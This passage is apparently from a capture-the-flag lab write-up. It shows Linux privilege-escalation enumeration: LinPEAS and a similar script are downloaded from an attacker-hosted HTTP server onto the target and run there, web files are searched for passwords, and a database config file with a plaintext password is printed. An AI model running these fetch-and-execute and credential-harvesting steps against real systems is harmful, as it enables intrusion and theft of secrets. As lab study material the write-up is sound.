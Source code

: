 			On Target: 
			```
			wget http://10.10.14.61/linuxprivchecker.py
			chmod +x linuxprivchecker.py
			./LinEnum.sh -r report -e /tmp/ -t
			```
		3. [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
			On Attacker:
			```
			wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
			sudo python3 -m http.server 80
			```
			
			On Target: 
			```
			wget http://10.10.14.61/linpeas.sh
			chmod +x linpeas.sh
			./linpeas.sh -a 2>&1 | tee linpeas_report.txt
			```
			Info about `2>&1` and `tee`: https://stackoverflow.com/questions/418896/how-to-redirect-output-to-a-file-and-stdout
			
			
			Users Found:
			```
			uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
			uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
			```
			
	2. Switch from `www-data` to `jimmy`
		1. Search `/var/www/html` for `passwd`: `grep -lR passwd ./`
			```
			./ona/plugins/ona_nmap_scans/install.php
			./ona/LinEnum.sh
			./ona/include/functions_db.inc.php
			./ona/.htaccess.example
			./ona/report-09-05-20
			./ona/local/config/database_settings.inc.php
			./ona/winc/user_edit.inc.php
			./ona/winc/tooltips.inc.php
			```
		2. `cat ./ona/local/config/database_settings.inc.php`
			```
			<?php
			$ona_contexts=array (
			  'DEFAULT' => 
			  array (
			    'databases' => 
			    array (
			      0 => 
			      array (
			        'db_type' => 'mysqli',
			        'db_host' => 'localhost',
			        'db_login' => 'ona_sys',
			        'db_passwd' => 'n1nj4W4rri0R!',
			        'db_database' => 'ona_default',
			        'db_debug' => false,
			      ),
			    ),
			    'description' => 'Default data context',
			    'context_color' => '#D3DBFF',
			  ),
			);
			